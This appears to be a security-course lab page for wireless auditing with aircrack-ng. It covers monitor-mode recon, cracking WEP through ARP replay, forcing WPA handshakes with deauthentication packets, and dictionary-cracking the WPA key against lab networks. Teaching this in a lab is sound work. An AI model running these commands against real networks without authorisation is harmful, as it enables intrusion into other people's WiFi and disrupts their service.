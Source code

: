 ```yaml
---
title: Wireless
layout: module
---
```


# Hacking Wireless Networks

IMPORTANT!: Gaining access to networks without permission is considered
an illegal act or crime in most countries. Know the law and obey.

*Aircrack-ng* [http://www.aircrack-ng.org/](http://www.aircrack-ng.org/) is
a set of tools for auditing wireless networks. The goal of these
exercises is to introduce some of their capabilities. The man pages are
very thorough and are more than enough to complete the exercises without
"cheating". You are encouraged to find the solutions in the man pages.
Please pay attention to the large variety of features the toolset offers
as we will only be able to cover a tiny fraction.

**You will need to be root to use most of these utilities.**

## Exercise 1: Recon

### Task 1

Use *airodump-ng* to find our targets' BSSIDs, channels, and security
settings given their ESSIDs: **seccon_wep** and **seccon_wpa**. Make
note of these details, you will need them later. Stop the process when
you are done.

In order to sniff a wireless network, the adapter needs to be put into
monitor mode. Some processes may interfere with the adapter while in
monitor mode.

{% capture code %}
airmon-ng check
{% endcapture %}
{% include copy-paste.html title="Airmon Check" code=code %}

List the processes that may interfere. It is best to kill those in
normal testing. **Do not kill any processes for this lab (e.g. dhclient
& wpa_supplicant).**

{% capture code %}
airmon-ng check kill
{% endcapture %}
{% include copy-paste.html title="Killing conflicting processes" code=code %}

This command would kill potentially interfering processes, but don't
use it for this lab.

Put the wireless interface wlan0 in monitor mode. A new interface
wlan0mon0 will be created.  Automatically correct any errors noted.

{% capture code %}
airmon-ng start wlan0
{% endcapture %}
{% include copy-paste.html title="Configuring the wireless interface wlan0 in monitor mode." code=code %}

Use airodump-ng.  Note: "Copy" might be broken for this command, as the double-dashes don't get
copied properly.

{% capture code %}
airodump-ng --essid seccon_wep --essid seccon_wpa wlan0mon
{% endcapture %}
{% include copy-paste.html title="Using airodump-ng" code=code %}

## Exercise 2 : Cracking WEP

### Task 1

Run airodump-ng to start capturing packets on the target network
utilizing WEP. Let this capture continue.

{% capture text %}
<pre>
    airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

Use aircrack-ng PTW (Pyshkin, Tews, Weinmann) method to crack the WEP
PSK.

{% capture text %}
<pre>
       # -a 1 specifies we are cracking WEP
       aircrack-ng -a 1 [-b $target_bssid] $capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Anywhere from 20k-60k IVs will be needed. Use aireplay-ng to spoof an
associated station and replay ARP frames to increase the data rate.

{% capture text %}
<pre>
      # -3 indicates replay ARP frames
      aireplay-ng -3 -b $target_bssid -h $spoofed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise 3 : Obtaining the WPAv2 PSK

### Task 1

Use airodump-ng to capture a WPA handshake corresponding to a target
network.

{% capture text %}
<pre>
      # Wait until the WPA handshake appears in the top line.
      airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

If the handshake doesn't reveal itself passively, use aireplay-ng to
deauthenticate an associated station. This will force a handshake to
occur.

{% capture text %}
<pre>
       # -0 1 indicates send one set of deauth packets
       aireplay-ng -0 1 -a $target_bssid -c $authed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Use *aircrack-ng* to find the WPA PSK using the
dictionary */usr/share/wordlists/fasttrack.txt*.

{% capture text %}
<pre>
      # -a 2 specifies we are looking for a WPA handshake
      aircrack-ng -a 2 [-b $target_bssid] -w /usr/share/wordlists/fasttrack.txt $handshake_capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}
